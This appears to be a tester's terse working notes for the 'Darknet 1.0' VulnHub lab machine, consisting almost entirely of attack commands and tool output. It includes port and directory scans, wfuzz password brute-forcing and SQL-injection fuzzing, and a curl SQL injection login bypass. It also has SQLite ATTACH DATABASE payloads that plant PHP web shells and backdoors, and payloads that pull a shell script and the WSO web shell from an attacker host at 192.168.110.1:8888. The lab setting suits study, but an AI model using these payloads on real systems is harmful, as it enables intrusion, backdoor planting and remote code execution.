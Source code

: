 
https://www.vulnhub.com/entry/darknet-10,120/


https://leonjza.github.io/blog/2016/06/16/rooting-darknet/#888-authentication-bypass




└─$ sudo nmap -sT -A -Pn -n -T4 -p-  192.168.110.53
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-22 10:28 CEST
Nmap scan report for 192.168.110.53
Host is up (0.00044s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42110/udp6  status
|   100024  1          44595/udp   status
|   100024  1          51000/tcp6  status
|_  100024  1          56607/tcp   status
56607/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:35:C7:24 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.44 ms 192.168.110.53

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.80 seconds

└─$ dirb http://192.168.110.53

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Sep 22 10:30:56 2021
URL_BASE: http://192.168.110.53/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.110.53/ ----
==> DIRECTORY: http://192.168.110.53/access/                                                                                                                                                
+ http://192.168.110.53/cgi-bin/ (CODE:403|SIZE:290)
+ http://192.168.110.53/index (CODE:200|SIZE:378)
+ http://192.168.110.53/index.html (CODE:200|SIZE:378)
+ http://192.168.110.53/server-status (CODE:403|SIZE:295)



└─$ nikto -h 192.168.110.53
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.110.53
+ Target Hostname:    192.168.110.53
+ Target Port:        80
+ Start Time:         2021-09-22 10:38:18 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Debian)
+ Server may leak inodes via ETags, header found with file /, inode: 46398, size: 378, mtime: Mon Mar 23 07:10:38 2015
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /access/: Directory indexing found.
+ OSVDB-3092: /access/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8725 requests: 0 error(s) and 11 item(s) reported on remote host
+ End Time:           2021-09-22 10:38:25 (GMT2) (7 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested




└─$ cat 888.darknet.com.backup 
<VirtualHost *:80>
    ServerName 888.darknet.com
    ServerAdmin devnull@darknet.com
    DocumentRoot /home/devnull/public_html
    ErrorLog /home/devnull/logs
</VirtualHost>



<input class="textbox" type="text" name="username" placeholder="Usuario" size="18"><br><br>
<input class="textbox" type="password" name="password" placeholder="Clave" size="18"><br><br>
<input class="textbox" type="submit" name="action" value="Login">


wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d "username=FUZZ&password=password&action=Login" --hc 200 http://888.darknet.com/index.php
wfuzz -c -w /usr/share/wordlists/wfuzz/vulns/sql_inj.txt -d "username=FUZZ&password=password&action=Login" --hc 200 http://888.darknet.com/index.php
wfuzz -c -w /usr/share/wordlists/wfuzz/vulns/sql_inj.txt -d "username=devnull&password=FUZZ&action=Login" --hc 200 http://888.darknet.com/index.php
wfuzz -c -w /usr/share/wordlists/metasploit/unix_passwords.txt -d "username=devnull&password=FUZZ&action=Login" --hc 200 http://888.darknet.com/index.php 
wfuzz -c -w /usr/share/wordlists/metasploit/unix_passwords.txt -d "username=devnull&password=FUZZ&action=Login" http://888.darknet.com/index.php 
wfuzz -c -w /usr/share/wordlists/metasploit/unix_passwords.txt -d "username=admin&password=FUZZ&action=Login" --hc 200 http://888.darknet.com/index.php


curl -c cookie --data-urlencode "username=devnull' or '1" --data-urlencode "password=password" --data-urlencode "action=Login" http://888.darknet.com/main.php 


<textarea class="textbox" name="sql" cols="50" rows="10"></textarea><br><br>
<input class="textbox" type="submit" name="action" value="Exec">


ATTACH DATABASE '/home/devnull/public_html/img/phpinfo.php' as pwn;
CREATE TABLE pwn.shell (code TEXT);
INSERT INTO pwn.shell (code) VALUES ('<?php phpinfo(); ?>');

ATTACH DATABASE '/home/devnull/public_html/img/shell.php' as pwn;
CREATE TABLE pwn.shell (code TEXT);
INSERT INTO pwn.shell (code) VALUES ('<?php system($_GET['cmd']); ?>');


ATTACH DATABASE '/home/devnull/public_html/img/files.php' as pwn;
CREATE TABLE pwn.shell (code TEXT);
INSERT INTO pwn.shell (code) VALUES ("<?php if($_GET['a'] == 'ls') { print_r(scandir($_GET['p'])); } if($_GET['a'] == 'cat') { print_r(readfile($_GET['p'])); } ?>");


ATTACH DATABASE '/home/devnull/public_html/img/get.php' as pwn;
CREATE TABLE pwn.shell (code TEXT);
INSERT INTO pwn.shell (code) VALUES ("<?php $content = file_get_contents("http://192.168.110.1:8888/les.sh"); echo $content ?>");


attach database '/home/devnull/public_html/img/backdoor.php' as backdoor; create table backdoor.tbl (cmd TEXT); insert into backdoor.tbl (cmd) values ("<?php $_REQUEST[e] ? eval( $_REQUEST[e] ) : exit; ?>");


 ServerName signal8.darknet.com ServerAdmin errorlevel@darknet.com DocumentRoot /home/errorlevel/public_html 



http://signal8.darknet.com/xpanel/
<input class="textbox" type="text" name="username" size="18" placeholder="Usuario"><p>
<input class="textbox" type="password" name="password" size="18" placeholder="Clave"></p><p>
<input class="textbox" type="submit" name="Action" value="Login">


wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d "username=FUZZ&password=password&Action=Login" --hc 200 http://signal8.darknet.com/xpanel/
wfuzz -c -w /usr/share/wordlists/metasploit/unix_passwords.txt -d "username=admin&password=FUZZ&Action=Login" --hc 200 http://signal8.darknet.com/xpanel/
└─$ wfuzz -c -w /usr/share/wordlists/metasploit/unix_passwords.txt -d "username=devnull&password=FUZZ&Action=Login"  http://signal8.darknet.com/xpanel/
└─$ wfuzz -c -w /usr/share/wordlists/metasploit/unix_passwords.txt -d "username=errorlevel&password=FUZZ&Action=Login"  http://signal8.darknet.com/xpanel/
└─$ wfuzz -c -w /usr/share/wordlists/metasploit/unix_passwords.txt -d "username=admin&password=FUZZ&Action=Login"  http://signal8.darknet.com/xpanel/


└─$ wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/All_attack.txt  http://signal8.darknet.com/contact.php?id=FUZZ

attach database '/home/devnull/public_html/img/rfi.php' as backdoor; create table backdoor.tbl (cmd TEXT); insert into backdoor.tbl (cmd) values ("<?php $content = file_get_contents("http://192.168.110.1:8888/wso/wso.php"); $myfile = fopen("/home/devnull/public_html/img/wso.php", "w") or die("Unable to open file!"); fwrite($myfile, $content);fclose($myfile); ?>");

